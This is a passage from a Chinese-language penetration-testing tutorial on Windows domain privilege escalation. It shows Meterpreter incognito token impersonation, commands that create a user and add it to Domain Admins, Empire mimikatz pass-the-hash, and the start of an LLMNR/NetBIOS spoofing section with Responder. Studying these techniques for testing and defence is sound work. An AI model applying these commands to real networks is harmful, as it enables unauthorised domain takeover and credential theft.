 同样，在 `meterpreter shell` 中可以使用 `incognito` 来模拟域管理员，然后通过迭代系统中所有可用的身份验证令牌来添加域管理员。

在活动的 `meterpreter shell` 中执行如下命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>add_user test test!@#123 -h 1.1.1.2<br>``` |

执行如下命令，将该账户加到域管理员组中。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>add_user "Domain Admins" test -h 1.1.1.2<br>``` |

### [](#empire-%E4%B8%8B%E7%9A%84%E4%BB%A4%E7%89%8C%E7%AA%83%E5%8F%96%E5%88%86%E6%9E%90)Empire 下的令牌窃取分析

运行 `mimikatz`，输入 `creds`

执行：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>pth CredID<br>``` |

## [](#%E6%97%A0%E5%87%AD%E8%AF%81%E4%B8%8B%E7%9A%84%E6%9D%83%E9%99%90%E8%8E%B7%E5%8F%96)无凭证下的权限获取

### [](#llmnr-%E5%92%8C-netbios-%E6%AC%BA%E9%AA%97%E6%94%BB%E5%87%BB)LLMNR 和 NetBIOS 欺骗攻击

#### [](#responder-%E5%B7%A5%E5%85%B7)Responder 工具

开启监听模式
